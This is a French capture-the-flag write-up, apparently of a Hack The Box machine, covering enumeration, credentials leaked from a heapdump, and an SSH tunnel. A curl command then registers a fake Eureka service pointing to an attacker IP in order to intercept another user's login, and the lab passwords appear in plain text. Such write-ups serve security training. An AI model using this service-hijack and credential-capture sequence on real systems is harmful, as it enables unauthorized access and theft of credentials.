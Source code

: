 Difficulté : Hard

# Enumeration 
## Nmap 
Nous commençons par exécuter une analyse nmap sur la cible : 

![[Pasted image 20250429111659.png]]
Le scan révèle que les ports **22**, **80** et **8761** sont ouverts sur la cible.

En explorant le port **80**, nous avons découvert un site web accessible à l'adresse **furni.htb**.

![[Pasted image 20250429112028.png]]

Afin d’identifier d’éventuelles ressources non listées accessibles sur le serveur web de la cible `http://furni.htb`, un fuzzing de répertoires a été réalisé à l’aide de l’outil `ffuf`. 

```
ffuf  -u http://furni.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```

ca m'a permis d’identifier plusieurs sous-domaines associés à la cible. Ces sous-domaines peuvent héberger des fichiers , dossiers ou applications supplémentaires potentiellement intéressante  à la suite de l’analyse.

![[Pasted image 20250429114201.png]]

Après avoir téléchargé l'ensemble des fichiers disponibles et entamé leur analyse un par un, j'ai identifié un fichier nommé **`headpdump`**. En examinant son contenu, j'ai recherché la présence éventuelle d'informations sensibles telles que des identifiants ou des mots de passe. Cette inspection m’a permis de mettre en évidence des données potentiellement intéressantes.

![[Pasted image 20250429115759.png]]

password=0sc@r190_S0l!dP@sswd, user=oscar190

http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!


![[Pasted image 20250429122014.png]]

Oscar parvient à se connecter via SSH, mais j'ai également repéré le service **Eureka**. Afin d'y accéder, je vais configurer une redirection de port pour pouvoir me connecter au port **8761**

```
ssh -L 8761:localhost:8761 oscar190@10.10.11.66
```

Les identifiants récupérés seront testés sur l’ensemble des interfaces de connexion identifiées précédemment.
login: EurekaSrvr
password: 0scarPWDisTheB3st

![[Pasted image 20250429122335.png]]

Nous allons déployer un service factice basé sur l’exemple "Hacking Netflix Eureka", dans le but de simuler une présence légitime au sein de l’environnement et d’exploiter la confiance accordée aux services enregistrés.

```
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "YOURIP",  
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "YOURIP",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```



![[Pasted image 20250429131113.png]]

nous avons réussi à extraire le nom d'utilisateur et le mot de passe associés au service ciblé, ce qui permet une élévation des privilèges ou un accès non autorisé aux ressources internes.

```
username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=JIVbCzoWJkTBdEsVTbZrxfWiTajQj9Lg9FvXWFIcckIGJ5AuQOM_aFknH3DsRigsLJtf88DBYMm1vefNwG7vYGd-SyA1QqhP 
```

![[Pasted image 20250429132310.png]]
 password : IL!veT0Be&BeT0L0ve
 
![[Pasted image 20250429132432.png]]

![[Pasted image 20250429133417.png]]


![[Pasted image 20250429133338.png]]

https://gchq.github.io/CyberChef/
https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka

